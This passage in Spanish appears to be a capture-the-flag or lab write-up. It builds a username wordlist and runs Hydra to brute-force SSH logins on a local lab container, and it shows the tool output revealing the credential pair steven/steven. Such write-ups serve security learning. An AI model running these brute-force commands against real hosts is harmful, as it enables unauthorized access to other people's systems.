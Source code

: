 Vamos a crear un `wordlist` de usuarios.

> users.txt

```
alice
bob
charlie
diana
edward
fiona
george
hannah
ian
julia
kevin
laura
michael
nina
oscar
paula
quinn
rachel
steven
tina
```

Una vez echo esto vamos a probar dichos usuarios en `SSH` con un diccionario de contraseñas para probar fuerza bruta.

Pero no lo conseguiremos por lo que vamos a probar a que utilice el mismo diccionario de usuarios como contraseña.

## Escalate user steven

### Hydra

```shell
hydra -L users.txt ssh://<IP> -t 64 -I -e nsr
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-10 04:04:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 60 login tries (l:20/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: steven   password: steven
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-10 04:04:28
```
